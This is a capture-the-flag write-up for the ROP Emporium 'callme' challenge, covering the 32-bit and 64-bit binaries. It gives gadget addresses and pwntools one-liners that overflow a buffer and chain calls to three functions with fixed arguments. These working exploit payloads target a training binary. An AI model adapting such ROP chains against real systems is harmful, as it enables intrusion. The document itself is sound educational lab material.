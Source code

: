# CALLME

In this challenge, we got to explore how functions can be called in succession by crafting an ROP chain. Contrary to the previous challenges, I solved the **64-bit** version first and found it much easier.

## 32-bit

More stacks.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering

  The problem description is very clear: we have to run `callme_one`, `callme_two`, `callme_three` in succession, each with 0xdeadbeef, 0xcafebabe, 0xd00df00d as the 3 parameters.

  Key addresses:

```
0x80484f0 callme_one@plt
0x8048550 callme_two@plt
0x80484e0 callme_three@plt
0x8048510 exit@plt
```

  Unlike the 64-bit counter we don't have the `usefulGadgets` function.

  Also in `pwnme`, `ebp` was `0xffffccd8`

  I tried jumping into `callme_one` supplying the correct parameters, and jump to `callme_two` afterwards:

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
sys.stdout.buffer.write(\
b"A"*40+\
p32(0xffffccdc)+\
p32(0x80484f0)+\
p32(0x8048550)+\
p32(0xdeadbeef)+\
p32(0xcafebabe)+\
p32(0xd00df00d)\
)')
```

  ![after_pwnme](https://user-images.githubusercontent.com/114584910/197405198-adceafdf-4915-4422-a9f6-ce35cfc18bfe.png)

  ![after_callme_one](https://user-images.githubusercontent.com/114584910/197405200-a488ef95-a134-459e-a1da-b449de73f7d2.png)

  ![at_callme_two](https://user-images.githubusercontent.com/114584910/197405203-05f67fe0-659c-4e9d-b65b-ee61f92c20e2.png)


  My issue became apparent when `callme_two` is called: it takes `cafebabe` as the first parameter, `d00df00d` as the second. This is not the way to go.

  ### Self-education

  I was making a couple of wrong assumptions about `ebp` for the previous challenges:
  
  - I usually placed `ebp` +4 after the value I got in `pwnme` because I wrongly thought my variables would be overwritten if put any higher. The truth: if we're not jumping in the middle of a function, each function will have its stack frame and nothing is overwritten.
  - I also thought I had to magically use `ebp` to *return control back to any previous functions*, as often shown in tutorial videos to the stack. The truth: since I'm controlling the program flow, I don't need to pretend that I'm returning to anywhere and just run wild.

  Like 64-bit ELFs, 32-bit ELFs can also have gadgets:

```py
Gadget(0x80485f2, ['add esp, 0x10', 'leave', 'ret'], ['ebp', 'esp'], 0x2540be413)
Gadget(0x80487f5, ['add esp, 0xc', 'pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x20)
Gadget(0x80484aa, ['add esp, 8', 'pop ebx', 'ret'], ['ebx'], 0x10)
Gadget(0x80485f5, ['leave', 'ret'], ['ebp', 'esp'], 0x2540be403)
Gadget(0x80487fb, ['pop ebp', 'ret'], ['ebp'], 0x8)
Gadget(0x80487f8, ['pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x14)
Gadget(0x80484ad, ['pop ebx', 'ret'], ['ebx'], 0x8)
Gadget(0x80487fa, ['pop edi', 'pop ebp', 'ret'], ['edi', 'ebp'], 0xc)
Gadget(0x80487f9, ['pop esi', 'pop edi', 'pop ebp', 'ret'], ['esi', 'edi', 'ebp'], 0x10)
Gadget(0x8048496, ['ret'], [], 0x4)
```

  ### Devising and implementing the payload

  Following the steps in 64-bit version, I had an idea.

```
b"A"*40
ebp
callme_one
(something to clear the stack)
(3 parameters)
callme_two
(something to clear the stack)
(3 parameters)
callme_three
exit
(3 parameters)
```

  Let's try using the gadget at `0x80487f9` to clear our stack:

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
clear_with_parameters = p32(0x80487f9)+p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d);\
sys.stdout.buffer.write(\
b"A"*40+\
p32(0xffffccd8)+\
p32(0x80484f0)+\
clear_with_parameters+\
p32(0x8048550)+\
clear_with_parameters+\
p32(0x80484e0)+\
p32(0x8048510)+\
clear_with_parameters[4:]\
)')
```

  It worked.
  
  ### Post-solve alternative solution
  
  I said that I didn't need to pretend that I was returning to anywhere. It turns out that it's *also* possible to do it with the `leave ret` gadget. [This write-up from Andrew Lamarra](https://blog.lamarranet.com/index.php/rop-emporium-callme-solution/#64-bit_Version) demonstrates how to do it. It requires disabling ASLR though:
  
  ![what a beautiful stack](https://user-images.githubusercontent.com/114584910/197407021-d53a76d8-a92e-459b-b1cb-9e22c5dd3971.png)

</details>

## 64-bit

More gadgets.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering

  The problem description is very clear: we have to run `callme_one`, `callme_two`, `callme_three` in succession, each with 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d as the 3 parameters. The first, second, third parameters use `rdi`, `rsi` and `rdx` respectively.

  Key addresses:

```
0x400720  callme_one@plt
0x400740  callme_two@plt
0x4006f0  callme_three@plt
0x400750  exit@plt
```

  From breaking in `pwnme`, `rbp` is at `0x7fffffffdae0`.

  Here are some useful gadgets:

```
>>> r.rdx
Gadget(0x40093e, ['pop rdx', 'ret'], ['rdx'], 0x10)
>>> r.rsi
Gadget(0x40093d, ['pop rsi', 'pop rdx', 'ret'], ['rsi', 'rdx'], 0x18)
>>> r.rdi
Gadget(0x4009a3, ['pop rdi', 'ret'], ['rdi'], 0x10)
>>> r.ret
Gadget(0x4006be, ['ret'], [], 0x8)
```

  It's surprising that pwntools did not include the `usefulGadgets` function (at `0x40093c`):

```
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:     pop    rdi
   0x000000000040093d <+1>:     pop    rsi
   0x000000000040093e <+2>:     pop    rdx
   0x000000000040093f <+3>:     ret    
End of assembler dump.
```

  ### Education

  I wrote about PLT already in [the previous write up](https://github.com/RaccoonNinja/ROP-emporium-writeups/blob/main/02.%20split.md).

  ### Devising and implementing the payload

  Let's get our hands dirty with what we already know (with lines broken):

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
sys.stdout.buffer.write(\
b"A"*32+\
p64(0x7fffffffdae0)+\
p64(0x40093c)+\
p64(0xdeadbeefdeadbeef)+\
p64(0xcafebabecafebabe)+\
p64(0xd00df00dd00df00d)+\
p64(0x4006be)+\
p64(0x400720)+\
p64(0x400750)\
)')
```

  (usefulGadget + 1st_value + 2nd_value + 3rd_value + ret + callme_one + exit)

  ![first_success](https://user-images.githubusercontent.com/114584910/197405147-1ba59efe-cdb9-43ac-bf8a-ac918adceb99.png)

  The registers are overwritten after our function call, but we have 0x200 bytes as buffer and it's more than enough:

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
populate=p64(0x40093c)+p64(0xdeadbeefdeadbeef)+p64(0xcafebabecafebabe)+p64(0xd00df00dd00df00d);\
sys.stdout.buffer.write(\
b"A"*32+\
p64(0x7fffffffdae0)+\
p64(0x4006be)+\
populate+\
p64(0x400720)+\
populate+\
p64(0x400740)+\
populate+\
p64(0x4006f0)+\
p64(0x400750)\
)')
```

</details>
